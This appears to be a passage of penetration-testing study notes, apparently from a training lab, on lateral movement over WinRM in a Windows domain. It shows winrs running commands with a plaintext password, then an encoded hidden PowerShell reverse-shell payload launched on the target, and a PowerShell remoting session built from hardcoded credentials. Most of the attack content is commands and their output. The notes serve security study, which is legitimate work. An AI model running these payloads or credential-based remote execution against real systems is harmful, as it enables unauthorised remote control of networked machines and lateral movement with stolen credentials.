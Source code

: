 Receive reverse shell on nc listener. Success. 

#### WinRM (Ports: 5986 for HTTPS & 5985 for HTTP)
#winrm 
- Remote host management
- Communicates via WS-Management protocol

##### Scenario: Execute Commands on Remote Target via winrs 
###### Tool: winrs 
- Pre-req: domain user is an admin or part of remote management users

Execute `hostname & whoami` on remote target 
```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

Replace `hostname & whoami` with encoded reverse-shell payload
```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

##### Scenario: PowerShell Remoting 

Establish PowerShell Remote Session via WinRM
```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

Interact with new PS Session
```
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```
